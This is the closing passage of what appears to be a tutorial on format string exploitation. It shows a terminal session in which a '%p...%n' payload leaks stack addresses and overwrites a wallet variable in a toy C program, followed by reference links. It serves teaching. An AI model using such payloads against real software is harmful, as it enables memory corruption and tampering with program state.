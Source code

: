 It looks kind of ugly, but then again, exploit development can be an ugly process ¯\\\_(ツ)_/¯

```sh
$ ./cash
Enter your name: %p.%p.%p.%p.%p.%1000p.%n.%p
0x5555555596b1.0x7fffffffde10.0x10.0x7fffffffde10.0x7ffff7fadbe0.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   (nil)..0x70252e70252e7025, your wallet is at 0x7fffffffe03c.
You currently have $1066.
You're swimming in cash!
$
```

## More Resources:
- [Format Specifiers in C](https://www.tutorialspoint.com/format-specifiers-in-c)
- [Exploiting Format String Vulnerabilities](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)

Enjoy :metal:
